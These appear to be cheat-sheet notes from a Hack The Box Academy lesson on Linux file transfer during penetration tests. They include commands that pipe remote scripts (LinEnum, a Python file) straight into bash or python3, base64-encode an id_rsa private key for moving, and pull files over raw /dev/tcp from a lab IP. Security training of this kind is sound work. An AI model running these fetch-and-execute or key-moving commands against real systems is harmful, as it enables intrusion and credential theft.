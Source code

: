 ![](https://academy.hackthebox.com/storage/modules/24/LinuxDownloadUpload.drawio.png)
==Base64 Encoding / Decoding==
```bash
md5sum id_rsa  # Check MD5 hash of id_rsa file
cat agent | base64 -w 0; echo  # Encode id_rsa file to base64
```

```bash
echo -n '<base64_encoded_content>' | base64 -d > id_rsa
md5sum id_rsa  # Check MD5 hash of id_rsa file after decoding
```

==File Transfer Using wget==
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
# Fileless exec
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

==File Transfer Using cURL==
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
# Fileless exec
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

==Download with Bash (/dev/tcp)==
```bash
exec 3<>/dev/tcp/10.10.14.2/8000
echo -e "GET /agent HTTP/1.1\n\n">&3
cat <&3
```

==SSH File Transfer (SCP)==
```bash
scp riley@painters.htb:agent .
```
